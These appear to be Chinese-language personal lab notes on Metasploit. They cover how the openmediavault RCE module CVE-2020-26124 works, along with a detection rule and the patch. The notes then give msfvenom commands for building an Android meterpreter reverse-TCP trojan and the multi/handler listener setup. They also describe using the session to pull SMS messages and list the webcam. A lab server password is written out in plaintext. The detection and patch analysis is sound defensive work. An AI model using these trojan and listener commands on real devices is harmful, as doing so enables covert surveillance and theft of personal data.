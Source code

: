 ## metasploit了解

更新至2020/11/23含有4125个exploits 1125个auxiliary 352个post 592个payloads 45个encoders 10 nops:10、 evasion:7

![](assets/image506.jpg)

例子：CVE-2020-26124

造成漏洞原因：

4.1.36之前的openmediavault和5.5.12之前的5.x允许通过rpc.php的sortfield POST参数进行经过身份验证的PHP代码注入攻击，因为config / databasebackend.inc中未使用json\_encode\_safe。成功利用漏洞后，可以在根操作系统上以root用户身份执行任意命令。

![](assets/image508.jpg)

1.     show options &set

![](assets/image510.jpg)

2.     分析openmediacault\_rpc\_rce.rb文件

大概流程：1.check a.login()  post请求rpc.php文件

                 b.get\_target() post请求version信息

                 b.execute\_command() post请求数据中携带.exec(命令)

          2.exploit a.execute\_cmdstager

3.使用，抓包分析，书写规则

![](assets/image512.jpg)

执行成功。

![](assets/image514.jpg)

规则中可以检测：

"sortfield":"'.exec(\\"

4.查看补丁信息

添加了json\_encode\_safe()函数

![](assets/image516.jpg)

### 3.1 metasploit\_shellcode

1.环境

121服务器上已搭建metasploit环境(用户名密码：zky/gujie0513)

![](assets/image517.png)

环境所在目录：/home/zky/git/metasploit-framework-master

![](assets/image518.png)

生成shellcode

### 3.2利用metasploit生成安卓木马

1.生成木马

msfvenom -p android/meterpreter/reverse\_tcp lhost=192.168.159.224 lport=55555 R > zky.apk

![](assets/image520.jpg)

使用逍遥模拟器打开

![](assets/image522.jpg)

注意安装逍遥模拟器需要打开虚拟机虚拟化vt设置

![](assets/image524.jpg)

打开metasploit监听端口，运行MainActivity

![](assets/image526.jpg)

发送一个真正的apk到安卓模拟器，然后成功启动一个会话，利用这个会话获取基本信息以及短信等信息

![](assets/image528.jpg)

使用jadx-gui分析zky.apk文件，可以看到该应用具有一些敏感权限

![](assets/image530.jpg)

抓取流量分析：

发送的apk携带链接信息

![](assets/image532.jpg)

use exploit/multi/handler

set payload android/meterpreter/reverse\_tcp

set lhost 192.168.159.224

set lport 55555

exploit

webcam\_list

调试过程中涉及的脚本，之后如果遇到可以进行参考

![](assets/image534.jpg)
